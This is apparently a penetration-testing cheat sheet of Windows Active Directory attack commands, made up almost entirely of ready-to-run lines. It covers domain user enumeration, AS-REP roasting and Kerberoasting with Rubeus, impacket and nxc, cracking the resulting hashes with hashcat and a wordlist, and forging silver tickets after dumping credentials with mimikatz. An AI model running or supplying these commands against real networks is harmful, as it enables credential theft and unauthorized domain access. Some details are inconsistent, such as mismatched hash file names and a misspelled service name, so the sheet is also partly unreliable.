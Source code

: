 ```jsx
Get-NetUser | select samaccountname //powerview
net user /domain
impacket-GetADUsers -all -dc-ip 10.10.1.1 fake.com/bob.alice -hashes :e72dddddddddddddd | awk '{print $1}'
GetADUsers.py -all -dc-ip 192.168.1.1 fake.com/dave:password
```

### AS-REP Roasting

```php
.\Rubeus.exe asreproast /nowrap

impacket-GetNPUsers -dc-ip 192.168.1.1  -request -outputfile hashes.asreproast corp.com/dave

nxc ldap 192.168.1.1 -u "dave"  -p "password" --asreproast hash

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Kerberoasting

service runas normal user

```jsx
sudo impacket-GetUserSPNs -request -dc-ip 192.168.1.1 corp.com/dave
sudo impacket-GetUserSPNs fake.com/bob.alice -hashes :e728ecbadfb02f51ce8eed753f3ff3fd -request -dc-ip 10.10.185.140 -outputfile hashes.asreproast
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force

nxc ldap 192.168.1.1 -u "dave"  -p "password" --kerberoasting hash

.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

### Silver Tickets

```jsx
//iis_server NTLM => rc4 
sekurlsa::logonpasswords
//SID [-4:]
whoami /user
klist
//inject ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:dave
iwr -UseDefaultCredentials http://web04

Rubeus.exe silver /service:MSSQKSvc/kerbdc1.kerb.local:1433 /rc4:4d28cf5252d39971419580a51484ca09 /sid:S-1-5-21-1987370270-658905905-1781884369 /user:administrator /domain:kerb.local /ptt
sqlcmd -S kerbdc1.kerb.local
```
